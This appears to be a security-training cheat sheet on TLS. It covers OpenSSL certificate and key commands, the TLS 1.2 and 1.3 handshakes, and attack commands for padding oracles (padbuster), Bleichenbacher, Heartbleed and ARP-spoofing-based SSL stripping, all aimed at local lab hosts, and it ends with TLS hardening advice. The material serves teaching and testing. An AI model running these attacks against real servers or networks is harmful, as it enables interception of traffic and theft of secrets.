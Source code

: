 ## OpenSSL
|Command|Description|
|---|---|
|`openssl genrsa -out key.pem 2048`|Generate 2048 Bit RSA key|
|<code>openssl s_client -connect hackthebox.com:443 &#124; openssl x509 > hackthebox.pem</code>|Download certificate of web server|
|`openssl x509 -outform der -in hackthebox.pem -out hackthebox.der`|Convert PEM certificate to DER format|
|`openssl crl2pkcs7 -nocrl -certfile hackthebox.pem -out hackthebox.p7`| Convert PEM certificate to PKCS#7 format|
|`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out selfsigned.pem -sha256 -days 365`| Create self-signed certificate|
|`openssl rsa -in rsa.pem -pubout > rsa_pub.pem`|Extract public key from RSA key-pair|
|`openssl rsautl -encrypt -inkey rsa_pub.pem -pubin -in msg.txt -out msg.enc`|Encrypt file with RSA public key|
|`openssl rsautl -decrypt -inkey rsa.pem -in msg.enc > decrypted.txt`|Decrypt file with RSA private key|

## TLS 1.2 Handshake
|Message|Description|
|---|---|
|ClientHello|Contains ClientRandom, Cipher Suites supported by client|
|ServerHello|Contains TLS version, Cipher Suite for session, ServerRandom|
|Certificate|Contains server certificate|
|ServerKeyExchange|Contains server key share (only for PFS cipher suites)|
|ServerHelloDone|Tells client that the ServerHello is complete|
|ClientKeyExchange|Contains client key share|
|ChangeCipherSpec|Concludes handshake, all subsequent messages are protected|

## TLS 1.3 Handshake
|Message|Description|
|---|---|
|ClientHello|Contains ClientRandom, Cipher Suites supported by client, client key share|
|ServerHello|Contains TLS version, Cipher Suite for session, ServerRandom, server key share|
|Finished|Concludes handshake|

## Padding Oracles
|Command|Description|
|---|---|
|`padbuster http://127.0.0.1:4000/admin "AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=" 16 -encoding 0 -cookies "user=AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0="`|Run padbuster with an encrypted sample with block size 16|

Parameters:
- specify block length
- specify encoding with `-encoding` flag
- specify location of ciphertext with `-cookies` or `-post` flags
- specify plaintext to encrypt with `-plaintext` flag
- specify `-usebody` flag to analyze response content

## POODLE
SSL 3.0 padding:
- arbitrary padding bytes
- last byte is the length of padding excluding the length itself
- Example for block size 8: `DEADBEEF` -> `DEADBEEF00000003`

## Bleichenbacher
|Command|Description|
|---|---|
|`java -jar bleichenbacher-1.0.0.jar -pcap ./bleichenbacher.pcap -executeAttack`|Run Bleichenbacher attack from pcap file|
|`java -jar bleichenbacher-1.0.0.jar -executeAttack -connect 127.0.0.1:443 -encrypted_premaster_secret <SNIP>`|Run Bleichenbacher attack against server with encrypted premaster secret|
|<code>echo -n 214[...]3a8 &#124; awk -F '0303' '{print "0303"$2}'</code>|Extract unpadded premaster secret from padded premaster secret|
|`PMS_CLIENT_RANDOM <client_random> <premaster_secret>`|Wireshark Key file syntax|

## Heartbleed
|Command|Description|
|---|---|
|`java -jar heartbleed-1.0.0.jar -connect 127.0.0.1:443 -executeAttack -heartbeats 10`|Run Heartbleed attack|

## SSL Stripping
|Command|Description|
|---|---|
|`sudo arpspoof -i docker0 172.17.0.5`|Run ARP spoofing attack on interface `docker0` targeting `172.17.0.5`|
|`Strict-Transport-Security: max-age=31536000`| HSTS header syntax|

## Testing TLS Configuration
|Command|Description|
|---|---|
|`bash testssl.sh https://hackthebox.com`|Test TLS configuration of a website|

TLS Best Practices:
- do not offer SSL 2.0 or SSL 3.0
- do not offer TLS 1.0 or TLS 1.1
- no NULL cipher suites
- no EXPORT cipher suites
- prefer PFS cipher suites
- prefer GCM mode over CBC mode
